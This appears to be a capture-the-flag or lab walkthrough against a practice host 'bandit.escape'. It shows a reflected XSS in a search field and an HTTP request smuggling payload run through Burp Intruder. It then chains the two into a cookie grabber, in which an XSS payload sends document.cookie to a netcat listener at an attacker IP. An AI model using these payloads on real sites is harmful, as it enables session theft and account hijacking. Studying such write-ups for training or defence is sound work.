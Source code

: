 
### Reflected XSS

Reflected XSS is a type of **Cross-Site Scripting (XSS)** attack where an attacker injects malicious scripts into a web application. The injected script is **reflected** off the web server and executed in the victim's browser.

**How It Works**

1. **Attacker crafts a malicious URL** containing a script.
2. **Victim clicks the link** (via phishing, comments, etc.).
3. **Web server reflects the input** without sanitization.
4. **Victim’s browser executes the script** (stealing cookies, session hijacking, etc.).

---

# Your job

Go to the home page. There's a **search** field.

So, insert the following code on the search field.

```
"><script>alert('1');</script>
```

After click on the Search button you'll see a pop up window like this:

![[Enumeration-20250325205126744.webp]]

>[!Success]
>The pagee is vulnerable to Reflected XSS.


## Apache 7.1.1 — HTTP Smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.

This version of Apache is vulnerable to HTTP Smuggling. On this [web](https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/) you can learn more about this vulnerability.

### Exploit

Use the following payload on Burp Suite.

```
GET / HTTP/1.1
Host: bandit.escape
Accept: */*
Connection: keep-alive
Content-Length: 71
Transfer-Encoding: chunked

0
GET /?filter="><script>alert('1')%3B<%2Fscript> HTTP/1.1
Sth:
```

1. Intercept  the http://bandit.escape/?filter=%22%3E%3Cscript%3Ealert%28%271%27%29%3B%3C%2Fscript%3E with Burp Proxy.
2. Send the request to Intruder.
3. Select `Payloads` and set Payload type = `null payloads`.
	![[Exploitation-20250401202714479.webp]]
4. Check the option `Continue indefinitely`.
5. Start the attack.
	![[Exploitation-20250401202952664.webp]]

	Now, upon refreshing the page, we’ll see our XSS in action even though we’re not interacting with the page.

## XSS + HTTP Smuggling = Cookie Graber

Now, you have to combine both vulnerabilities.

There's a tool called [The PHP cookie stealer](https://github.com/TheWation/PhpCookieStealer) that can be use in XSS attacks to steal browser cookies from victims.

The plan is as follows:

1. Host a server that acts as a cookie grabber.
2. Then deploy an XSS payload redirecting to our server.
3. The server reads the cookie.
4. We replace the cookies.


---
# Your job

#Attacking_Machine 
1. Start a netcat listener.
```
nc -lnvp 9000
```

2. Craft a payload. 
```
"><script>document.write('<img src="http://10.50.97.227:9000/cookie.gif?cookie=' + document.cookie + '")/>');</script>
```

3. Paste the payload on the http://bandit.escape/ search field and send the request.
	![[Exploitation-20250401204856844.webp]]
4. You'll receive the response on the netcat listener.
	 ![[Exploitation-20250401205049182.webp]]
	 